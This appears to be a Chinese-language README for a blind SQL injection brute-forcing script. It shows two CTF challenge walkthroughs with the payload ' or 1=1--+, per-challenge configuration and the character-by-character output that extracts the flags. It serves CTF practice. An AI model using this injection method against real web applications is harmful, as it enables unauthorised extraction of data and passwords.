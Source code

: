 # 简述

二分法判断传入 POST 参数的合法性

类似二分法盲注

亦可适用于爆破 POST 参数的环境



使用时添加下列参数

```python
# url
url = ""
# 审查页面元素(正确回显)
check = ""
# _POST参数名
key = ""
# 测试语句
column = ""
```

"check"为传入正确形式参数时的正确回显

"key"为 POST 参数名

"column"为需要核验的参数名

必要时适当修改"payload"



# 使用示例一

如选取[DeconstruCT.F](https://ctf.dscvit.com/challenges)二零二一年十月一日赛题[Taxi Union Problems](https://ctf.dscvit.com/challenges#Taxi%20Union%20Problems-34)为例

其要寻得某一车牌号的地址，此为一 SQL 注入题型

输入

```
' or 1=1--+
```

有正确回显，此举为确认"payload"形式

提取内容作为"check"参数

其 post 参数名为"lisence_plate",为"key"

而要寻找的"location"为"column",其为测试的重点（脚本目的便是爆破该字段）

```python
# url
url = "http://extremely.uniquename.xyz:2052/"
# 审查页面元素(正确回显)
check = "TN-06-AP-9879"
# _POST参数名
key = "lisence_plate"
# 测试语句
column = "location"
```

执行结果如下

```
Find it : A
Find it : Ay
Find it : Aya
Find it : Ayan
Find it : Ayana
Find it : Ayanav
Find it : Ayanava
Find it : Ayanavar
Find it : Ayanavara
Find it : Ayanavaram
Find it : Ayanavaram
Successfully found the flag : Ayanavaram
```

# 使用示例二

选取同一比赛的另一赛题[The Gate Keeper](https://ctf.dscvit.com/challenges#The%20Gate%20Keeper-35)为例

该题提示爆破，密码即为 flag

```
' or 1=1--+
```

确认"payload"格式

回显无报错，为

```
The flag for the CTF is the password you entered.(If you havent cheated that is)
```

选择该语句为"check"内容

"key"与"column"皆为"password"

```python
# url
url = "http://extremely.uniquename.xyz:2082/"
# 审查页面元素(正确回显)
check = "The flag for the CTF is the password you entered.(If you havent cheated that is)"
# _POST参数名
key = "password"
# 测试语句
column = "password"
```

执行结果如下

```
Find it : d
Find it : ds
Find it : dsc
Find it : dsc{
Find it : dsc{y
Find it : dsc{yo
Find it : dsc{you
Find it : dsc{you_
Find it : dsc{you_c
Find it : dsc{you_ca
Find it : dsc{you_can
Find it : dsc{you_cann
Find it : dsc{you_canno
Find it : dsc{you_cannot
Find it : dsc{you_cannot_
Find it : dsc{you_cannot_c
Find it : dsc{you_cannot_ch
Find it : dsc{you_cannot_che
Find it : dsc{you_cannot_chea
Find it : dsc{you_cannot_cheat
Find it : dsc{you_cannot_cheat_
Find it : dsc{you_cannot_cheat_t
Find it : dsc{you_cannot_cheat_th
Find it : dsc{you_cannot_cheat_the
Find it : dsc{you_cannot_cheat_the_
Find it : dsc{you_cannot_cheat_the_g
Find it : dsc{you_cannot_cheat_the_ga
Find it : dsc{you_cannot_cheat_the_gat
Find it : dsc{you_cannot_cheat_the_gate
Find it : dsc{you_cannot_cheat_the_gate_
Find it : dsc{you_cannot_cheat_the_gate_k
Find it : dsc{you_cannot_cheat_the_gate_ke
Find it : dsc{you_cannot_cheat_the_gate_kee
Find it : dsc{you_cannot_cheat_the_gate_keep
Find it : dsc{you_cannot_cheat_the_gate_keepe
Find it : dsc{you_cannot_cheat_the_gate_keeper
Find it : dsc{you_cannot_cheat_the_gate_keeper}
Find it : dsc{you_cannot_cheat_the_gate_keeper}
Successfully found the flag : dsc{you_cannot_cheat_the_gate_keeper}
```

